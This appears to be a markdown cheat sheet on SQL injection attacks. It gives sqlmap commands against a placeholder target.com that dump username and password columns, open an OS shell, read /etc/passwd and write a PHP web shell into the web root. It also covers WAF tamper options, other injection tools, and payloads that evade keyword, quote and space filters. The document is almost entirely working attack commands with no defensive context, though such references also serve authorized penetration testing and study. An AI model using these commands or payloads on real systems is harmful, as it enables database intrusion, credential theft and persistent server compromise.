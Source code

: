 ## Automated SQL Injection Tools

### 1. SQLMap
```bash
# Basic usage
sqlmap -u "http://target.com/page.php?id=1"

# POST data injection
sqlmap -u "http://target.com/login.php" --data="username=test&password=test"

# Cookie injection
sqlmap -u "http://target.com/page.php" --cookie="sessionid=abc123"

# Database enumeration
sqlmap -u "http://target.com/page.php?id=1" --dbs
sqlmap -u "http://target.com/page.php?id=1" -D database_name --tables
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users --columns
sqlmap -u "http://target.com/page.php?id=1" -D database_name -T users -C username,password --dump

# OS shell
sqlmap -u "http://target.com/page.php?id=1" --os-shell

# File operations
sqlmap -u "http://target.com/page.php?id=1" --file-read="/etc/passwd"
sqlmap -u "http://target.com/page.php?id=1" --file-write="shell.php" --file-dest="/var/www/html/shell.php"

# WAF bypass
sqlmap -u "http://target.com/page.php?id=1" --tamper=space2comment,charencode
```

### 2. Other Tools
```bash
# NoSQLMap
python nosqlmap.py -u "http://target.com/login" -v

# jSQL Injection
# GUI-based tool for SQL injection

# Burp Suite Extensions
# SQLiPy, SQLMapper, etc.
```

## SQL Injection Prevention Bypass

### 1. Filter Bypass Techniques
```sql
# Keyword filtering bypass
SeLeCt instead of SELECT
UNION ALL SELECT instead of UNION SELECT
/*!50000UNION*/ /*!50000SELECT*/

# Quote filtering bypass
CHAR(97,100,109,105,110) instead of 'admin'
0x61646d696e instead of 'admin' (hex)
CONCAT(CHAR(97),CHAR(100),CHAR(109),CHAR(105),CHAR(110))

# Space filtering bypass
SELECT/**/username/**/FROM/**/users
SELECT+username+FROM+users
SELECT%0Ausername%0AFROM%0Ausers

```